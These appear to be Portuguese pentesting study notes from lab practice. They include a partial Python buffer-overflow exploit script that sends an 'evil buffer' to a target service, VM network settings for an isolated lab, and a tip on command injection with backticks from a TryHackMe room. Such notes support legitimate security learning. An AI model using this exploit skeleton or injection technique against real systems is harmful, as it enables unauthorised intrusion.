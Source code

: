 ```bash

try:
    # Conectando ao alvo
    s.connect((ip, port))
    print("Connected to target.")

    # Recebe a mensagem de boas-vindas
    response = s.recv(1024).decode("latin-1")
    print(response)

    # Envia o nome de usuário
    username = " "  # Nome de usuário
    s.send(bytes(username + "\r\n", "latin-1"))
    
    # Recebe resposta do servidor após o envio do usuário
    response = s.recv(1024).decode("latin-1")
    print(response)

    # Envia o buffer de injeção (overflow)
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")

except Exception as e:
    print(f"Could not connect: {e}")

finally:
    s.close()
```

VM
🔹 Linux 
- sudo nano /etc/network/interfaces
- auto eth1
- iface eth1 inet static
    - address 192.168.1.10
    - netmask 255.255.255.0

🔹 No Windows 10
- Vá para Painel de Controle > Rede e Internet > Conexões de Rede.
- Clique com o botão direito na Conexão de Rede Local (Ethernet) e vá em Propriedades.
- Selecione Protocolo IP Versão 4 (TCP/IPv4) e clique em Propriedades.
- Escolha Usar o seguinte endereço IP e configure:
- Endereço IP: 192.168.1.20
- Máscara de Sub-rede: 255.255.255.0
- Gateway: Deixe vazio (para não ter acesso à internet).
- Salve e feche tudo.

- exemplo da sala Ultratech do THM
- para comand injection podemos usar o backsticks que é diferente das aspas
- backtick `` shift + acento agudo
- a shell vai executar primeiro o que esta dentro dele e depois qualuqer outro comando 

